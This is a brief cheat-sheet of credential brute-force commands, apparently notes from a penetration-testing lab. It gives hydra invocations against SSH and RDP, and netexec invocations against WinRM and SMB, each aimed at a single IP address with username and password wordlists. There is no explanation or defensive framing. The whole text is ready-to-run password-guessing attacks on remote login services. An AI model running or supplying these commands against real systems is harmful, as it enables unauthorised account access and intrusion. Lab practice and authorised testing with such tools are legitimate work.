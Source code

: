 

Bruteforce ssh 

hydra -L username.list -P password.list ssh://10.129.81.110

Bruteforce winrm
nxc winrm 10.129.81.110 -u usernames.list -p passwords.list

Bruteforce RDP:
hydra -L username.list -P password.list rdp://10.129.81.110 


BruteForce SMB:
nxc smb 10.129.81.110 -u username.list -p password.list


